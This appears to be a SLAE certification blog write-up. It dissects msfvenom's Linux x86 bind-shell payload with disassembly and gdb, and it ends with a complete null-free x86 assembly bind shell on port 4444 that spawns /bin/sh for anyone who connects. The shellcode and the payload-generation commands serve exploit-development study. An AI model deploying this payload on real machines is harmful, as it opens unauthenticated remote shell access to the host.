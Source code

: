 ```yaml
---
title: SLAE Exercise 1
tags: SLAE
key: 20190609
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html> Student ID: SLAE - 1470 All code can be found in:{:.info}

### Assignment One: 
1. Creating Shellcode to Bind a Shell Over TCP
    - Binds to a port
    - Execs Shell on incoming connection
2. Port number should be easily configurable

In this assignment, we are going to create our own bind shell shellcode. To understand how this is going to work, we can take the one in msfvenom as example.

```
msfvenom -p linux/x86/shell_bind_tcp -f raw | sctest -vvv -Ss 10000
```
We will get a lot of output but the following part interests me

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-1.JPG"/>

Here, the shellcode will try to create a socket and bind port 4444 (msfvenom default port) which is exactly the part that we would like to enhance. However, it didn't really tell us what kind of value is being pushed to the stack. It will be better for us to understand it from the assembly level with the help of ndisasm.

```
msfvenom -p linux/x86/shell_bind_tcp -f raw |ndisasm -u -
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-2.JPG"/>

We can see that several hex values are being pushed to the stack. We can use xxd to help us to convert them back to ascii.
Remember since x86 uses little endian, its better for use to reverse the order first.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-3.JPG"/>

The first one doesn't look right to us while the second one is use to call /bin/sh for execve so we do not need to modify it. 
Lets examine what systemcall it is trying to use after the value '0200115C' being pushed into the stack.
The hex number 0x66 is being used which is equals to 102 in decimal value. Referring to /usr/include/i386-linux-gnu/asm/unistd_32.h, it is actually trying to use socketcall.
According to man socketcall, we know that there are different type of socket call and they all are defined as different number and being used as the first argument (Which will be ebx). These calls are defined inside /usr/include/linux/net.h

```c
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
#define SYS_GETSOCKNAME	6		/* sys_getsockname(2)		*/
#define SYS_GETPEERNAME	7		/* sys_getpeername(2)		*/
#define SYS_SOCKETPAIR	8		/* sys_socketpair(2)		*/
#define SYS_SEND	9		/* sys_send(2)			*/
#define SYS_RECV	10		/* sys_recv(2)			*/
#define SYS_SENDTO	11		/* sys_sendto(2)		*/
#define SYS_RECVFROM	12		/* sys_recvfrom(2)		*/
#define SYS_SHUTDOWN	13		/* sys_shutdown(2)		*/
#define SYS_SETSOCKOPT	14		/* sys_setsockopt(2)		*/
#define SYS_GETSOCKOPT	15		/* sys_getsockopt(2)		*/
#define SYS_SENDMSG	16		/* sys_sendmsg(2)		*/
#define SYS_RECVMSG	17		/* sys_recvmsg(2)		*/
#define SYS_ACCEPT4	18		/* sys_accept4(2)		*/
#define SYS_RECVMMSG	19		/* sys_recvmmsg(2)		*/
#define SYS_SENDMMSG	20		/* sys_sendmmsg(2)		*/
```

Lets use gdb to examine the value of ebx of that systemcall.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-4.JPG"/>

0x2 (SYS_BIND) is assigned to ebx before socketcall is called again. As an additional reference, ebx is set to 0x1,0x2,0x4,0x5 along the shellcode which matches our findings in Libemu.
As now we understand that the value 0x2 equals to bind(), the struture of socketcall for bind should look like this
```c
socketcall( 0x2, bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen));
```
According to the shellcode from msfvenom, the rest of the arguments should by pointed by ecx, again, we can use gdb to study the values

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-5.JPG"/>

With these value, we can fill in values on our own
```c
socketcall( 0x2, bind(0x3, 0xbffff324, 0x10));
```
Since 0xbffff324 is the address pointed to the value of sockaddr = 0200115C, according to man bind()
```c
    struct sockaddr {
        sa_family_t sa_family;
        char        sa_data[14];
    }
```
How this sockaddr work is that we need to assign a value for sa_family which is usually 0x2 while the sa_data[14] will be in a port+ip address format.
Since we didn't specify the ip address, the value will be 0x0 and port 4444 in hex will be 115C.

Up till now, it is really obvious that we can just copy the shellcode from msfvenon, convert our desire port to hexadecimal and reverse it to configure our bind shell. However, what's the point of learning if we just use this existing shellcode? Also, this shellcode contains a null byte which we do not want, as such, we are going to write our own bind shell shellcode.

Bind Shell Proof of Concept
```asm
global _start

section .text

_start:
;int socket(int domain, int type, int protocol);
	xor ebx,ebx
	push ebx
	inc ebx
	push ebx
	push byte +0x2
	mov ecx,esp
	mov al,0x66
	int 0x80

;int bind(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
	pop ebx
	pop esi
	push edx
	push word 0x5c11
	push word 0x02
	push byte +0x10
	push ecx
	push eax
	mov ecx,esp
	push byte +0x66
	pop eax
	int 0x80

;int listen(int sockfd, int backlog);
	mov [ecx+0x4],eax	;address for sockaddr
	mov bl,0x4		;socket call for listen
	mov al,0x66
	int 0x80

;int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
	inc ebx			;increase ebx to 0x5 to call accept
	mov al,0x66
	int 0x80
;int dup2(int oldfd, int newfd, int flags);
	xchg eax,ebx
	pop ecx
	mov cl, 0x2
loop:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns loop

;int execve(const char *filename, char *const argv[],char *const envp[]);
	push dword 0x68732f2f
	push dword 0x6e69622f
	mov ebx,esp
	push eax		;eax was set to 0x0 after dup2 and we can use it directly
	push ebx		
	mov ecx,esp
	mov al,0xb
	int 0x80
```